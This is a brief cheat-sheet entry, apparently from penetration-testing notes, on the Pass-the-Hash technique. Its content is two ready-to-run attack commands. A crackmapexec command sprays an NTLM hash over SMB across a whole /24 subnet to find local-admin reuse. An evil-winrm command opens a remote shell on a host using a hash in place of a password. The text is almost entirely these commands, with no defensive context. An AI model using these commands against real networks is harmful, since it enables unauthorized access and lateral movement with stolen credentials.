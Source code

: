 # Pass the Hash

**Spray the hash** through the entire network. Just comparing local user's hash.

```
crackmapexec smb 192.168.0.0/24 -u <User> -H <NTLM-Hash> --local
```

Connect using **evil-winrm.**

```
evil-winrm -i 10.0.0.1 -u <user> -H <Hash>
```
